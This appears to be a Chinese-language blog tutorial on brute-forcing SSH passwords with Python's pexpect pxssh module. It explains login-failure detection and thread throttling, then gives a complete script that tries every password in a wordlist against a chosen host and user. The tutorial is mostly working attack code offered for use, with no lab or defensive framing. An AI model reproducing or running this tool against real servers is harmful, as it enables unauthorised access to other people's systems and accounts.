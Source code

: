 # 利用pxssh暴力破解ssh密码
> ==关于pxssh==
> pxssh 是一个包含了pexpect库的专用脚本,它已经预先为我们写好了login(),logout()和prompt()等函数直接与SSH交互。

####利用pxssh的login函数判断密码是否正确
由于pxssh.login()函数执行失败会抛出异常，因此我们可以利用try...catch来捕获相应的异常来判断密码是否正确。（PS:其中的connection_lock.release()是信号量得释放操作）

```Python
def connect(host,user,password):
    try:
        session = pxssh.pxssh()
        session.login(host,user,password)
        print('[+]Password Found:'+password)
    except Exception,e:
        print ('[-] Error Connecting:'+str(e))
    finally:
        connection_lock.release()
```

####多线程和信号量
由于我们准备从一个庞大的字典文件的读取密码，我们决定利用多线程来同时处理多个密码登陆操作用来加快速度。

```Python
password_file = open(password,'r')
for line in password_file:
        thread = threading.Thread(target=connect,args=(host,user,password))
        thread.start()
```
可是像上面的代码,如果password_file是个巨大的密码文件，就为同时产生过多的线程，很容易造成服务器无法响应，为了控制同时存在的线程数量，我们这里采用threading中的BoundedSemaphore来控制最大连接数，也就是最多的允许线程数量,讲上面的代码改成如下这样:

```Python
maxConnections = 5
connection_lock = threading.BoundedSemaphore(maxConnections)
password_file = open(password,'r')
for line in password_file:
   password = line.strip('\r').strip('\n')
   connection_lock.acquire()
   print('[-] Testing password:'+str(password))
   thread = threading.Thread(target=connect,args=(host,user,password))
   thread.start()
```
最大连接数被设置为5，在每个thread启动时注册一个信号量，在connect函数结束时注销这个信号量，这样同时存在的线程数量就被控制为5个。

####测试结果
![2016-06-29_14667836697742.jpg](https://pic.mylonly.com/2016-06-29_14667836697742.jpg)
字典文件可以自己生成，或者网上找一些常用字典文件
####完整代码
```Python
from pexpect import pxssh
import threading
import optparse
import time

maxConnections = 5
connection_lock = threading.BoundedSemaphore(maxConnections)

def send_command(child,cmd):
    child.sendline(cmd)
    child.prompt()
    print(child.before)

def connect(host,user,password):
    try:
        session = pxssh.pxssh()
        session.login(host,user,password)
        print('[+]Password Found:'+password)
    except Exception,e:
        print ('[-] Error Connecting:'+str(e))
    finally:
        connection_lock.release()

def main():
    
    parse = optparse.OptionParser('Usage %prog '+ \
        '-H <target host> -u <user> -F <password file>')
    parse.add_option('-H',dest='host',type='string',help='specify target host')
    parse.add_option('-u',dest='user',type='string',help='specify username')
    parse.add_option('-F',dest='password',type='string',help='specify password file')
    (options,args) = parse.parse_args()

    host = options.host
    user = options.user
    password = options.password

    password_file = open(password,'r')

    for line in password_file:
        password = line.strip('\r').strip('\n')
        connection_lock.acquire()
        print('[-] Testing password:'+str(password))
        thread = threading.Thread(target=connect,args=(host,user,password))
        thread.start()

if __name__ == '__main__':
    main()

```

